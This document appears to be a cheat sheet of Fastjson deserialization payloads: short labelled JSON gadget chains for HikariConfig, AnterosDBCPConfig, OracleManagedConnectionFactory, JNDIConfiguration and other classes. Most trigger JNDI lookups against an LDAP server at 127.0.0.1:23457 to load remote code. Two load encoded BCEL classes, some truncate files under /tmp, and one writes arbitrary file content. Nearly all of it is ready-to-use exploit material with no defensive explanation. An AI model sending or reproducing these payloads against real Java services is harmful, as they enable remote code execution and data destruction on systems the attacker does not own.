AnterosDBCPConfig2

```json
{
    "@type": "br.com.anteros.dbcp.AnterosDBCPConfig",
    "healthCheckRegistry": "ldap://127.0.0.1:23457/Command8"
}
```

CacheJndiTmLookup

```json
{
    "@type": "org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup",
    "jndiNames": "ldap://127.0.0.1:23457/Command8"
}
```

AutoCloseable 清空指定文件

```json
{
    "@type":"java.lang.AutoCloseable",
    "@type":"java.io.FileOutputStream",
    "file":"/tmp/nonexist",
    "append":false
}
```

AutoCloseable 清空指定文件

```json
{
    "@type":"java.lang.AutoCloseable",
    "@type":"java.io.FileWriter",
    "file":"/tmp/nonexist",
    "append":false
}
```

AutoCloseable 任意文件写入

```json
{
    "stream":
    {
        "@type":"java.lang.AutoCloseable",
        "@type":"java.io.FileOutputStream",
        "file":"/tmp/nonexist",
        "append":false
    },
    "writer":
    {
        "@type":"java.lang.AutoCloseable",
        "@type":"org.apache.solr.common.util.FastOutputStream",
        "tempBuffer":"SSBqdXN0IHdhbnQgdG8gcHJvdmUgdGhhdCBJIGNhbiBkbyBpdC4=",
        "sink":
        {
            "$ref":"$.stream"
        },
        "start":38
    },
    "close":
    {
        "@type":"java.lang.AutoCloseable",
        "@type":"org.iq80.snappy.SnappyOutputStream",
        "out":
        {
            "$ref":"$.writer"
        }
    }
}
```

BasicDataSource

```json
{
        "@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
        "driverClassName": "true",
        "driverClassLoader": {
            "@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
        },
        "driverClassName": "$$BCEL$$$l$8b$I$A$A$A$A$A$A$A...o$V$A$A"
    }
```

HikariConfig

```json
{
    "@type": "com.zaxxer.hikari.HikariConfig",
    "metricRegistry": "ldap://127.0.0.1:23457/Command8"
}
```

HikariConfig

```json
{
    "@type": "com.zaxxer.hikari.HikariConfig",
    "healthCheckRegistry": "ldap://127.0.0.1:23457/Command8"
}
```

HikariConfig

```json
{
    "@type": "org.apache.hadoop.shaded.com.zaxxer.hikari.HikariConfig",
    "metricRegistry": "ldap://127.0.0.1:23457/Command8"
}
```

HikariConfig

```json
{
    "@type": "org.apache.hadoop.shaded.com.zaxxer.hikari.HikariConfig",
    "healthCheckRegistry": "ldap://127.0.0.1:23457/Command8"
}
```

SessionBeanProvider

```json
{
    "@type": "org.apache.commons.proxy.provider.remoting.SessionBeanProvider",
    "jndiName": "ldap://127.0.0.1:23457/Command8",
    "Object": "su18"
}
```

JMSContentInterceptor

```json
{
    "@type": "org.apache.cocoon.components.slide.impl.JMSContentInterceptor",
    "parameters": {
        "@type": "java.util.Hashtable",
        "java.naming.factory.initial": "com.sun.jndi.rmi.registry.RegistryContextFactory",
        "topic-factory": "ldap://127.0.0.1:23457/Command8"
    },
    "namespace": ""
}
```

ContextClassLoaderSwitcher

```json
{
    "@type": "org.jboss.util.loading.ContextClassLoaderSwitcher",
    "contextClassLoader": {
        "@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
    },
    "a": {
        "@type": "$$BCEL$$$l$8b$I$A$A$A$A$A$A$AmS$ebN$d4P$...$A$A"
    }
}
```

OracleManagedConnectionFactory

```json
{
    "@type": "oracle.jdbc.connector.OracleManagedConnectionFactory",
    "xaDataSourceName": "ldap://127.0.0.1:23457/Command8"
}
```

JNDIConfiguration

```json
{
    "@type": "org.apache.commons.configuration.JNDIConfiguration",
    "prefix": "ldap://127.0.0.1:23457/Command8"
}
```